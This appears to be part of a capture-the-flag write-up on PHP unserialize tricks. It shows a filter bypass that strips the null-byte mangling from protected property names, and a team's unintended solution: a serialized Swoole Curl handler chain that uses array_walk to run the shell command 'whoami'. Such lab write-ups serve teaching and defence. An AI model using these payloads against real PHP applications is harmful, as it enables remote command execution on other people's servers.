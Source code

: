 ### Part 4 - Inaccessible properties

Check the following code:
```php
php > class A{public $b;protected $c;}
php > $b = new A();
php > var_dump(serialize($b));
php shell code:1:
string(35) "O:1:"A":2:{s:1:"b";N;s:4:"\000*\000c";N;}"
php >
```

The private/protected property name will be mangled with `\x00` by [zend_mangle_property_name](https://github.com/php/php-src/blob/34f727e63716dfb798865289c079b017812ad03b/Zend/zend_API.c#L3595). I banned `\x00`, how to bypass it?

Try the following code, it unmangled the property to make it public.

```php
$s = preg_replace_callback('/s:(\d+):"\x00(.*?)\x00/', function ($a) {
    return 's:' . ((int)$a[1] - strlen($a[2]) - 2) . ':"';
}, $s);
```

In PHP < 7.2, the unserialized object will have two properties with the same name but different visibility:
```php
php > var_dump($s);
string(32) "O:1:"A":2:{s:1:"b";N;s:1:"c";N;}"
php > var_dump(unserialize($s));
object(A)#2 (3) {
  ["b"]=>
  NULL
  ["c":protected]=>
  NULL
  ["c"]=>
  NULL
}
```

In PHP >= 7.2, PHP will handle property visibility changes. You can see this commit for detail: [Fix #49649 - Handle property visibility changes on unserialization ](https://github.com/php/php-src/commit/7cb5bdf64a95bd70623d33d6ea122c13b01113bd).

That is it.

## Unintended Solution

Come from [Nu1L](https://ctftime.org/team/19208). It has 2 tricks:

- `array_walk` can be used in object.
- `exec` is replaced by `swoole_exec` and have to use 2 `array_walk` to bypass it.

```php
```php
$o = new Swoole\Curl\Handlep("http://google.com/");
$o->setOpt(CURLOPT_READFUNCTION,"array_walk");
$o->setOpt(CURLOPT_FILE, "array_walk");
$o->exec = array('whoami');
$o->setOpt(CURLOPT_POST,1);
$o->setOpt(CURLOPT_POSTFIELDS,"aaa");
$o->setOpt(CURLOPT_HTTPHEADER,["Content-type"=>"application/json"]);
$o->setOpt(CURLOPT_HTTP_VERSION,CURL_HTTP_VERSION_1_1);

$a = serialize([$o,'exec']);
echo str_replace("Handlep","Handler",urlencode(process_serialized($a)));


```